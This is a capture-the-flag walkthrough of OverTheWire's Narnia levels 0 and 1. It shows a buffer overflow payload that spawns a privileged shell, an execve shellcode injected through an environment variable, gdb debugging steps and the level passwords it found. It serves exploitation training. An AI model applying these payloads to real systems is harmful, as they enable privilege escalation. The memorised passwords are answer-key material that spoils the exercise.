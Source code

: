 **>> Details: [https://overthewire.org/wargames/narnia/](https://overthewire.org/wargames/narnia/)**

> This wargame is for the ones that want to learn basic exploitation. You can see the most
common bugs in this game and we've tried to make them easy to exploit. You'll get the
source code of each level to make it easier for you to spot the vuln and abuse it. The
difficulty of the game is somewhere between Leviathan and Behemoth, but some of the
levels could be quite tricky.

![grafik](https://user-images.githubusercontent.com/84674087/142839640-d5296859-5d88-4d7e-8d83-a703d855b394.png)

<br />
<br />

## Narnia 0

![grafik](https://user-images.githubusercontent.com/84674087/142839936-9a2f374f-9862-45a3-831b-77ca618ca65a.png)

#### Solution
- We check the **sourcecode of narnia0.c**
```
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
- One can immediately spot the limited char buffer, which is assigned to 20 chars
- Moreover, the user input can account for up to 24 chars and is handed over to char buffer
- Let us provide user input with 24 chars to check what's happening
- To do so, we run a one-liner in the terminal with the help of simple python code
   - Option 1): ``` ./script `python -c "print('hello')"` ```
   - Option 2): `python -c "print('hello')" | ./script`
   - Option 3): `(python -c command1 ; command2 ; cat) | ./script`  --> "cat" keeps shell open (!)
- We proceed with Option 2) and adjust the command to our needs
- `python -c "print('C'*24)" | ./narnia0`
- Output:

![grafik](https://user-images.githubusercontent.com/84674087/142843934-579dcfca-d8dc-4fc9-8213-d7673334469e.png)

- We can change val from 0x41414141 (AAAA) to 0x43434343 (CCCC)
- Now we want to write "0xdeadbeef" instead of 0x43434343
- `python -c "print('C'*20 + '\xef\xbe\xad\xde')" | ./narnia0`
- It works ! But we don't see the shell ?!
- Here comes above mentioned Option 3) into the game: We have to keep the shell open with another command like "cat"
- `(python -c "print('C'*20 + '\xef\xbe\xad\xde')"; cat) | ./narnia0`
- We become user narnia1 and do `cat /etc/narnia_pass/narnia1`
- **PASSWORD:** efeidiedae

<br />

## Narnia 1

![grafik](https://user-images.githubusercontent.com/84674087/142846849-81325393-f307-4a49-be4c-4455620f6bec.png)

#### Solution 
- We check the **sourcecode of narnia1.c**:
```
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

- From reading the sourcecode we learn that an empty env-variable EGG returns above shown statement
- If we assign a value to EGG then these lines gets executed:
    - `ret = getenv("EGG");`: getenv() reads from EGG and is assigned to variable "ret"
    - `ret();`: the function ret() is called
- The principle of function "getenv()": 
    - Retrieve a C-string containing the value of the environment variable
    - If there is no variable, the function returns a null pointer
- To assign a value to EGG we enter following code snippet: `export EGG=aaa`
- What happens?

![grafik](https://user-images.githubusercontent.com/84674087/142911641-1d5cb406-b5d2-46ff-be98-92e09b5105e0.png)

- A segmentation fault can occur from:
    - accessing memory without having permission
    - accessing memory that is already reallocated or freed
    - accessing memory where the used index is out of boundary
- We can look behind the scences of narnica1.c with gdb, in order to get a better understanding of what's going on
- `gdb ./narnia1`
- `disass main`

![grafik](https://user-images.githubusercontent.com/84674087/142912054-35d82f97-17dc-4523-91b9-810853e22c9e.png)

- At memory address "0x080484a8" the function getenv() is called
- At memory address "0x080484b6" the function finally calls the register eax
- Let's check the content of eax at this point
- `break *0x080484b6` (set breakpoint)
- `run`
- `x/10x $eax` (dump 10 blocks of eax in hex-format)

![grafik](https://user-images.githubusercontent.com/84674087/142912424-1006195b-63a1-4f72-a8ef-0d06ffc490c9.png)

- At memory address "0xffffdea8" the first hex block states "0x00616161" which must be the "aaa" we assigned to EGG previously (hex 0x61 = ASCII a)
- Most probably we have to assign specific shellcode to EGG
- Our goal is to directly read `/etc/narnia_pass/narnia2` or create a shell with narnia2-rights
- Remember: narnia1.c is running as EUID narnia2
- To make our life easier we take a look at: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)
- To determine the OS for the shellcode we run `uname -a`: GNU/Linux x86_64
- So, shellcode for x86_64 and x86 should be at our disposal
- After some trial & error we evaluate this code as helpful: "Linux/x86 - polymorphic execve by Jonathan Salwan" [Shellcode 607](http://shell-storm.org/shellcode/files/shellcode-607.php)
- We tune our final code:

```
export EGG=`python -c "print('\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81')"`
```

![grafik](https://user-images.githubusercontent.com/84674087/142910004-d18af460-15ec-462e-b406-5d5993979c90.png)

- **PASSWORD:** nairiepecu

<br />


